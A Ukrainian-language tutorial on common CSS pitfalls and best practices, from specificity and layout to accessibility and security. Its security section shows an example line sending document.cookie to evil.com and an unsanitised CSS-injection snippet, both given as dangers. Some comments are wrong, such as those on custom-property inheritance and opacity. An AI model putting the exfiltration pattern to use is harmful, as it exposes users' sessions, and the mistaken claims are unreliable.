



# CSS: Підводні камені та best practices

## Загальний огляд

CSS (Cascading Style Sheets) є потужною технологією для стилізації веб-сторінок, але разом з тим містить багато нюансів, які можуть заплутати навіть досвідчених розробників. Ця частина присвячена типовим підводним каменям CSS та найкращим практикам, які допоможуть створювати більш надійний, підтримуваний та ефективний код.

## Специфічність селекторів

### Підводні камені специфічності

1. **Надмірна специфічність** — ускладнює перевизначення стилів:

```css
/* Занадто специфічний селектор */
body div.container article.post div.content p.description span.highlight {
    color: red;
}

/* Пізніше важко перевизначити */
.highlight {
    color: blue; /* Не спрацює через нижчу специфічність */
}
```

2. **Використання !important** — створює проблеми при підтримці:

```css
/* Анти-патерн */
.button {
    background-color: blue !important;
}

/* Тепер єдиний спосіб перевизначити - використовувати ще одне !important */
.special-button {
    background-color: red !important; /* Війна !important */
}
```

3. **Неявна специфічність інлайн-стилів**:

```html
<!-- Дуже складно перевизначити без !important -->
<div style="color: red;">Текст з інлайн-стилем</div>
```

### Best practices для специфічності

1. **Використовуйте принцип BEM** (Block Element Modifier) або іншу методологію CSS:

```css
/* BEM приклад */
.button {
} /* Блок */
.button__icon {
} /* Елемент */
.button--primary {
} /* Модифікатор */
```

2. **Уникайте надмірного вкладення селекторів**:

```css
/* Погано */
.header .navigation .list .item .link {
}

/* Краще */
.nav-link {
}
```

3. **Замість !important використовуйте більш специфічні селектори**:

```css
/* Замість цього */
.button {
    color: red !important;
}

/* Краще це */
.container .section .button {
    color: red;
}

/* Або ще краще - використовуйте класи з осмисленими іменами */
.button.button--danger {
    color: red;
}
```

4. **Намагайтеся триматися на одному рівні специфічності** в межах одного компоненту.



## Проблеми з розмірами і розташуванням

### Підводні камені Box Model

1. **Неправильне розуміння width і height**:

```css
/* Стандартна box-model: width/height не включають padding і border */
.box {
    width: 200px;
    padding: 20px;
    border: 1px solid black;
    /* Фактична ширина: 200px + 20px*2 + 1px*2 = 242px */
}
```

2. **Непередбачувані margin collapse**:

```css
/* Верхній і нижній margin між сусідніми елементами "схлопуються" */
.first {
    margin-bottom: 20px;
}
.second {
    margin-top: 30px;
}
/* Відстань між елементами буде 30px, а не 50px */
```

3. **Проблеми з відсотками у padding і margin**:

```css
/* Відсотки в padding і margin обчислюються відносно ширини батьківського елемента */
.parent {
    width: 500px;
}
.child {
    padding-top: 10%; /* 50px, а не 10% від висоти */
    margin-top: 10%; /* Також 50px */
}
```

### Best practices для Box Model

1. **Використовуйте box-sizing: border-box**:

```css
/* Застосовується до всіх елементів */
* {
    box-sizing: border-box;
}

/* Тепер width включає padding і border */
.box {
    width: 200px;
    padding: 20px;
    border: 1px solid black;
    /* Фактична ширина залишається 200px */
}
```

2. **Свідомо працюйте з margin collapse**:

```css
/* Уникайте margin collapse використовуючи padding на батьківському елементі */
.container {
    padding-top: 0.1px; /* Запобігає схлопуванню верхніх margin дочірніх елементів */
}

/* Або використовуйте display: flow-root для створення нового BFC */
.container {
    display: flow-root;
}
```

3. **Надавайте перевагу flex/grid над float**:

```css
/* Замість float використовуйте flexbox */
.container {
    display: flex;
    flex-wrap: wrap;
}
.item {
    flex: 0 0 calc(33.333% - 20px);
    margin: 10px;
}
```

## Проблеми з CSS-змінними та кольорами

### Підводні камені змінних і кольорів

1. **Проблеми з наслідуванням змінних**:

```css
:root {
    --main-color: blue;
}
.dark-theme {
    --main-color: white; /* Не застосується до дочірніх елементів, які мають 
                          власне значення --main-color */
}
```

2. **Різна інтерпретація кольорів у браузерах**:

```css
.element {
    /* Різні браузери можуть по-різному відображати кольори в різних кольорових просторах */
    color: color(display-p3 0 1 0);
}
```

3. **Непрозорість в rgba не дорівнює opacity**:

```css
/* Ці два підходи дають різні результати */
.element-1 {
    color: rgba(255, 0, 0, 0.5); /* Напівпрозорий текст */
}
.element-2 {
    color: rgb(255, 0, 0);
    opacity: 0.5; /* Напівпрозорий весь елемент разом з дочірніми */
}
```

### Best practices для змінних і кольорів

1. **Створюйте ієрархію змінних**:

```css
:root {
    /* Базові кольори */
    --color-primary-100: hsl(210, 100%, 90%);
    --color-primary-500: hsl(210, 100%, 50%);
    --color-primary-900: hsl(210, 100%, 10%);

    /* Семантичні змінні */
    --color-text: var(--color-primary-900);
    --color-background: white;
    --color-accent: var(--color-primary-500);
}

.dark-theme {
    --color-text: white;
    --color-background: var(--color-primary-900);
    --color-accent: var(--color-primary-100);
}
```

2. **Використовуйте сучасні кольорові функції**:

```css
.button {
    /* Використання oklch для ширшого кольорового охоплення */
    background-color: oklch(65% 0.3 230);

    /* Зміна відтінку кольору */
    color: color-mix(in oklch, var(--color-primary), black 20%);
}
```

3. **Дефолтні значення для CSS-змінних**:

```css
.component {
    /* Fallback значення, якщо змінна не визначена */
    color: var(--text-color, #333);
}
```

## Проблеми з шрифтами і текстом

### Підводні камені з шрифтами

1. **FOIT (Flash Of Invisible Text) і FOUT (Flash Of Unstyled Text)**:

```css
/* Без оптимізації, може викликати FOIT */
@font-face {
    font-family: "MyFont";
    src: url("myfont.woff2");
}
```

2. **Різна інтерпретація розмірів шрифтів у браузерах**:

```css
/* Розмір може відрізнятися між браузерами через різні базові розміри */
.text {
    font-size: 1em;
}
```

3. **Проблеми з line-height**:

```css
/* Line-height наслідується як коефіцієнт, а не як обчислене значення */
.parent {
    font-size: 16px;
    line-height: 1.5; /* = 24px */
}
.child {
    font-size: 24px;
    /* Успадкований line-height буде 24px * 1.5 = 36px */
}
```

### Best practices для шрифтів і тексту

1. **Використовуйте font-display для контролю завантаження шрифтів**:

```css
@font-face {
    font-family: "MyFont";
    src: url("myfont.woff2") format("woff2");
    font-display: swap; /* Показує системний шрифт до завантаження веб-шрифту */
}
```

2. **Налаштуйте font-weight і font-style коректно**:

```css
@font-face {
    font-family: "MyFont";
    src: url("myfont-bold.woff2") format("woff2");
    font-weight: 700;
    font-style: normal;
}
```

3. **Використовуйте CSS Font Loading API або варіативні шрифти**:

```javascript
// JavaScript для контролю завантаження шрифтів
document.fonts.ready.then(() => {
    document.documentElement.classList.add("fonts-loaded");
});
```

```css
/* Варіативні шрифти для зменшення кількості файлів */
@font-face {
    font-family: "MyVariableFont";
    src: url("myvariablefont.woff2") format("woff2-variations");
    font-weight: 100 900; /* Підтримка будь-якої ваги від 100 до 900 */
}
```

4. **Встановлюйте line-height без одиниць виміру**:

```css
body {
    font-size: 16px;
    line-height: 1.5; /* Краще, ніж line-height: 24px чи 150% */
}
```

## Проблеми з CSS в різних браузерах

### Підводні камені кросбраузерності

1. **Різна підтримка нових властивостей**:

```css
/* Не працюватиме в старих браузерах */
.container {
    display: grid;
    gap: 1rem;
}
```

2. **Префікси браузерів**:

```css
/* Може потребувати префіксів для повної підтримки */
.element {
    transition: transform 0.3s ease;
}
```

3. **Різні default стилі браузерів**:

```css
/* Кнопки, форми, списки можуть виглядати по-різному в різних браузерах */
button {
    padding: 10px;
}
```

### Best practices для кросбраузерності

1. **Використовуйте feature detection замість browser detection**:

```css
/* CSS Feature Detection через @supports */
@supports (display: grid) {
    .container {
        display: grid;
        gap: 1rem;
    }
}

@supports not (display: grid) {
    .container {
        display: flex;
        flex-wrap: wrap;
    }
    .container > * {
        margin: 0.5rem;
    }
}
```

2. **Розглядайте PostCSS з Autoprefixer**:

```css
/* Оригінальний CSS */
.element {
    display: flex;
    user-select: none;
}

/* Після Autoprefixer */
.element {
    display: -webkit-box;
    display: -ms-flexbox;
    display: flex;
    -webkit-user-select: none;
    -moz-user-select: none;
    -ms-user-select: none;
    user-select: none;
}
```

3. **Використовуйте normalize.css або reset.css**:

```css
/* Приклад мінімального CSS reset */
*,
*::before,
*::after {
    box-sizing: border-box;
    margin: 0;
    padding: 0;
}
```

4. **Перевіряйте на різних браузерах і пристроях**:



## Проблеми з CSS-анімаціями та трансформаціями

### Підводні камені анімацій

1. **Неоптимізовані анімації викликають reflow**:

```css
/* Викликає reflow на кожному кадрі анімації */
@keyframes bad-animation {
    from {
        left: 0;
        top: 0;
    }
    to {
        left: 100px;
        top: 100px;
    }
}
```

2. **Проблеми з transform-origin**:

```css
/* transform-origin впливає на результат трансформацій */
.element {
    transform-origin: top left; /* За замовчуванням center */
    transform: rotate(45deg); /* Обертається навколо верхнього лівого кута */
}
```

3. **Z-index і 3D-трансформації**:

```css
/* 3D-трансформації можуть створювати нові контексти накладання */
.transformed {
    transform: translateZ(0);
    /* Тепер цей елемент може перекривати елементи з вищим z-index */
}
```

### Best practices для анімацій

1. **Анімуйте лише transform і opacity для продуктивності**:

```css
/* Хороша анімація (використовує лише compositor) */
@keyframes good-animation {
    from {
        transform: translate(0, 0);
    }
    to {
        transform: translate(100px, 100px);
    }
}
```

2. **Використовуйте will-change для підказки браузеру**:

```css
.animated-element {
    /* Підказка браузеру для оптимізації майбутніх змін */
    will-change: transform, opacity;
}

/* Але не зловживайте: */
.everything {
    will-change: all; /* Дуже погана практика */
}
```

3. **Використовуйте requestAnimationFrame для JS-анімацій**:

```javascript
// Правильна анімація з JavaScript
function animate() {
    element.style.transform = `translateX(${position}px)`;
    position += 1;

    if (position < 100) {
        requestAnimationFrame(animate);
    }
}
requestAnimationFrame(animate);
```

4. **Уникайте анімації shorthand-властивостей**:

```css
/* Погано: анімація багатьох властивостей одночасно */
@keyframes bad {
    from {
        margin: 0;
    }
    to {
        margin: 20px;
    }
}

/* Краще: анімація конкретних властивостей */
@keyframes better {
    from {
        margin-top: 0;
        margin-left: 0;
    }
    to {
        margin-top: 20px;
        margin-left: 20px;
    }
}

/* Найкраще: використання transform */
@keyframes best {
    from {
        transform: translate(0, 0);
    }
    to {
        transform: translate(20px, 20px);
    }
}
```

## Проблеми з адаптивним дизайном

### Підводні камені адаптивного дизайну

1. **Неправильний порядок media queries**:

```css
/* Може перезаписуватись неправильно */
@media (max-width: 1200px) {
    /* Для екранів до 1200px */
}
@media (max-width: 768px) {
    /* Для екранів до 768px */
}
@media (max-width: 480px) {
    /* Для екранів до 480px */
}
```

2. **Прив'язка до конкретних пристроїв**:

```css
/* Надто конкретно, може не працювати на нових пристроях */
@media (device-width: 375px) and (device-height: 812px) {
    /* iPhone X */
}
```

3. **Неврахування високих DPI екранів**:

```css
/* Зображення може виглядати розмитим на Retina-дисплеях */
.logo {
    width: 200px;
    height: 100px;
    background-image: url("logo.png"); /* Відсутня версія 2x */
}
```

### Best practices для адаптивного дизайну

1. **Використовуйте mobile-first підхід**:

```css
/* Базові стилі для мобільних */
.element {
    width: 100%;
}

/* Для більших екранів */
@media (min-width: 768px) {
    .element {
        width: 50%;
    }
}

@media (min-width: 1200px) {
    .element {
        width: 33.333%;
    }
}
```

2. **Використовуйте відносні одиниці**:

```css
.container {
    font-size: 16px;
    padding: 1em; /* 16px */
}

.responsive-text {
    font-size: clamp(1rem, 0.5rem + 2vw, 2rem);
    /* Мінімум 1rem, максимум 2rem, плавно змінюється між ними */
}
```

3. **Адаптація для різних пристроїв та орієнтацій**:

```css
/* Стилі для різних орієнтацій */
@media (orientation: portrait) {
    .gallery {
        flex-direction: column;
    }
}

@media (orientation: landscape) {
    .gallery {
        flex-direction: row;
    }
}

/* Стилі для пристроїв з можливістю наведення */
@media (hover: hover) {
    .button:hover {
        background-color: blue;
    }
}
```

4. **Використовуйте Container Queries, якщо підтримуються**:

```css
.container {
    container-type: inline-size;
}

@container (min-width: 400px) {
    .card {
        display: flex;
    }
}
```

## Проблеми з організацією та підтримкою CSS

### Підводні камені організації CSS

1. **Монолітний CSS-файл**:

```css
/* Один великий файл зі стилями для всього сайту */
/* style.css - 10,000 рядків коду */
```

2. **Дублювання коду**:

```css
.header {
    padding: 20px;
    background: #f5f5f5;
}
.footer {
    padding: 20px;
    background: #f5f5f5;
}
.sidebar {
    padding: 20px;
    background: #f5f5f5;
}
```

3. **Неструктурований код**:

```css
/* Перемішані стилі різних компонентів */
.header {
    /* ... */
}
.product-card {
    /* ... */
}
.header-link {
    /* ... */
}
.footer {
    /* ... */
}
```

### Best practices для організації CSS

1. **Використовуйте методології організації CSS**:

```css
/* Приклад BEM (Block Element Modifier) */
.card {
    /* Блок */
}
.card__image {
    /* Елемент */
}
.card__title {
    /* Елемент */
}
.card--featured {
    /* Модифікатор */
}

/* Приклад SMACSS (Scalable and Modular Architecture for CSS) */
/* base.css */
body,
h1,
p {
    /* Базові стилі */
}

/* layout.css */
.l-header,
.l-main,
.l-footer {
    /* Стилі макету */
}

/* modules.css */
.button {
    /* Модульні стилі */
}
.card {
    /* Модульні стилі */
}
```

2. **Використовуйте CSS-препроцесори для кращої організації**:

```scss
// SCSS дозволяє організовувати код у вкладені блоки
.card {
    padding: 16px;
    border-radius: 4px;

    &__image {
        width: 100%;

        &--rounded {
            border-radius: 50%;
        }
    }

    &__title {
        font-size: 1.2em;
        margin-top: 8px;
    }

    &--featured {
        box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
    }
}
```

3. **Розподіляйте CSS на компоненти**:

```css
/* У компонентному підході кожен компонент має свій CSS */
/* button.css */
.button {
    /* ... */
}

/* card.css */
.card {
    /* ... */
}

/* Потім імпортуйте їх у головний файл */
@import "button.css";
@import "card.css";
```

4. **Застосовуйте CSS-in-JS або CSS Modules для ізоляції стилів**:

```javascript
// React з CSS-in-JS (styled-components)
const Button = styled.button`
    background: ${(props) => (props.primary ? "blue" : "white")};
    color: ${(props) => (props.primary ? "white" : "blue")};
    padding: 10px 15px;
    border-radius: 4px;
`;
```

```css
/* CSS Modules */
/* Button.module.css */
.button {
    background: white;
    color: blue;
}
.primary {
    background: blue;
    color: white;
}
```

## CSS та продуктивність

### Підводні камені продуктивності

1. **Надмірно складні селектори**:

```css
/* Браузер повинен виконати багато роботи для зіставлення */
body > div > article > section > .content > p > span.highlight {
}
```

2. **Завеликі CSS-файли**:

```html
<!-- Сповільнює перший render сторінки -->
<link rel="stylesheet" href="enormous-stylesheet.css" />
```

3. **Невикористані CSS-правила**:

```css
/* Код, який завантажується, але не використовується */
.unused-class {
    /* Стилі для елементів, яких немає на сторінці */
}
```

### Best practices для продуктивності

1. **Мінімізуйте глибину та складність селекторів**:

```css
/* Погано */
.header ul li a {
}

/* Краще */
.header-link {
}
```

2. **Критичний CSS і відкладене завантаження**:

```html
<!-- Інлайновий критичний CSS -->
<style>
    /* Критичні стилі для видимої частини сторінки */
    .header,
    .hero {
        /* ... */
    }
</style>

<!-- Відкладене завантаження некритичних стилів -->
<link
    rel="preload"
    href="styles.css"
    as="style"
    onload="this.onload=null;this.rel='stylesheet'"
/>
<noscript><link rel="stylesheet" href="styles.css" /></noscript>
```

3. **Чистіть невикористаний CSS**:

```bash
# Використовуйте інструменти як PurgeCSS для видалення невикористаних стилів
npx purgecss --css css/main.css --content index.html --output css/purged.css
```

4. **Використовуйте код-сплітинг для CSS**:

```javascript
// У сучасних веб-додатках можна завантажувати CSS для кожної сторінки окремо
import "./HomePage.css"; // Завантажується тільки для HomePage
```

## Доступність (accessibility) і CSS

### Підводні камені доступності

1. **Приховування контенту неправильним способом**:

```css
/* Недоступно для скрінрідерів та клавіатури */
.hidden {
    display: none;
}

/* Видимий візуально, але недоступний для скрінрідерів */
.invisible {
    opacity: 0;
}
```

2. **Низький контраст тексту**:

```css
/* Недостатній контраст тексту з фоном */
.low-contrast {
    color: #aaa;
    background-color: #999;
}
```

3. **Залежність тільки від кольору для передачі інформації**:

```css
/* Проблема для людей з дальтонізмом */
.error {
    color: red;
}
.success {
    color: green;
}
```

### Best practices для доступності

1. **Правильне приховування елементів**:

```css
/* Візуально прихований, але доступний для скрінрідерів */
.visually-hidden {
    position: absolute;
    width: 1px;
    height: 1px;
    padding: 0;
    margin: -1px;
    overflow: hidden;
    clip: rect(0, 0, 0, 0);
    white-space: nowrap;
    border: 0;
}
```

2. **Достатній контраст**:

```css
/* Хороший контраст (співвідношення контрастності ≥ 4.5:1) */
.good-contrast {
    color: #333;
    background-color: #fff;
}

/* Для великого тексту (співвідношення контрастності ≥ 3:1) */
.large-text {
    font-size: 24px;
    font-weight: bold;
    color: #555;
    background-color: #fff;
}
```

3. **Використовуйте не тільки колір для передачі інформації**:

```css
.error {
    color: red;
    border-left: 4px solid red;
    padding-left: 10px;
}

.success {
    color: green;
    border-left: 4px solid green;
    padding-left: 10px;
}
```

4. **Додайте :focus стани для елементів**:

```css
/* Забезпечує видимий focus для клавіатурної навігації */
:focus {
    outline: 2px solid blue;
    outline-offset: 2px;
}

/* Для сучасних браузерів можна розрізняти типи фокусу */
:focus-visible {
    outline: 2px solid blue;
    outline-offset: 2px;
}
```

5. **Підтримуйте масштабування тексту**:

```css
/* Дозволяє тексту масштабуватися */
html {
    font-size: 100%; /* або 16px */
}

body {
    font-size: 1rem;
}

/* Уникайте фіксованих розмірів */
.container {
    max-width: 1200px;
    width: 90%;
    margin: 0 auto;
}
```

## CSS та безпека

### Підводні камені безпеки

1. **Вставка контенту через CSS**:

```css
/* Потенційно небезпечний код */
.user-content::before {
    content: attr(data-user-content);
}
```

2. **Небезпечні URL в CSS**:

```css
/* Може бути використано для витоку даних */
.element {
    background-image: url("https://evil.com/?" + document.cookie);
}
```

3. **CSS-ін'єкції**:

```html
<!-- Якщо CSS додається динамічно без санітизації -->
<style>
    ${userProvidedStyles} /* Небезпечно */
</style>
```

### Best practices для безпеки

1. **Санітизуйте користувацький ввід**:

```javascript
// Санітизація перед використанням у CSS
const sanitizedValue = DOMPurify.sanitize(userInput);
element.style.backgroundColor = sanitizedValue;
```

2. **Використовуйте CSP (Content Security Policy)**:

```html
<!-- У head HTML-документа -->
<meta
    http-equiv="Content-Security-Policy"
    content="style-src 'self' https://trusted-cdn.com;"
/>
```

3. **Уникайте використання user-контенту в pseudo-елементах**:

```css
/* Краще використовувати контрольовані дані */
.icon::before {
    content: "✓"; /* Фіксований символ */
}
```

## Найкращі практики для продакшн

### Підводні камені в продакшні

1. **Необроблені префікси постачальників**:

```css
/* Може не працювати в усіх браузерах */
.element {
    display: flex;
    user-select: none;
}
```

2. **Незжатий CSS**:

```css
/* Великий файл сповільнює завантаження */
.button {
    background-color: blue;
    color: white;
    padding: 10px 20px;
    border-radius: 4px;
    /* ... багато правил ... */
}
```

3. **Використання абсолютних URL для ресурсів**:

```css
/* Може викликати проблеми при зміні домену або протоколу */
.logo {
    background-image: url("https://example.com/images/logo.png");
}
```

### Best practices для продакшн

1. **Автоматизуйте обробку CSS**:

```javascript
// Приклад налаштування Webpack для CSS
module.exports = {
    module: {
        rules: [
            {
                test: /\.css$/,
                use: [
                    "style-loader",
                    "css-loader",
                    "postcss-loader", // Для Autoprefixer, cssnano тощо
                ],
            },
        ],
    },
};
```

2. **Використовуйте інструменти оптимізації**:

```bash
# Приклад використання cssnano для мінімізації
npx cssnano input.css output.css
```

3. **Вбудуйте критичні стилі**:

```html
<head>
    <style>
        /* Інлайнові критичні стилі для швидкого рендерингу */
        body {
            margin: 0;
            font-family: sans-serif;
        }
        .header {
            /* ... */
        }
    </style>
    <link
        rel="preload"
        href="styles.css"
        as="style"
        onload="this.onload=null;this.rel='stylesheet'"
    />
</head>
```

4. **Використовуйте відносні шляхи або URL без протоколу**:

```css
/* Відносний шлях */
.logo {
    background-image: url("../images/logo.png");
}

/* URL без протоколу */
.external {
    background-image: url("//cdn.example.com/image.png");
}
```

## Загальний підсумок найкращих практик CSS



### Останні ключові рекомендації

1. **Принцип DRY (Don't Repeat Yourself)**:

    - Створюйте повторно використовувані компоненти
    - Використовуйте змінні для повторюваних значень
    - Абстрагуйте загальні патерни в утиліти

2. **Принцип Separation of Concerns**:

    - Розділяйте структуру (HTML), стилі (CSS) і поведінку (JS)
    - Не змішуйте відповідальності різних частин інтерфейсу

3. **Принцип Progressive Enhancement**:

    - Забезпечте базову функціональність спочатку
    - Додавайте складніші стилі і функції як покращення

4. **Оптимізуйте для майбутньої підтримки**:
    - Пишіть зрозумілий і добре структурований код
    - Документуйте нестандартні рішення
    - Думайте про людину, яка підтримуватиме код після вас

> "Найкращий CSS-код — це той, який легко видалити." — Джеремі Кіт
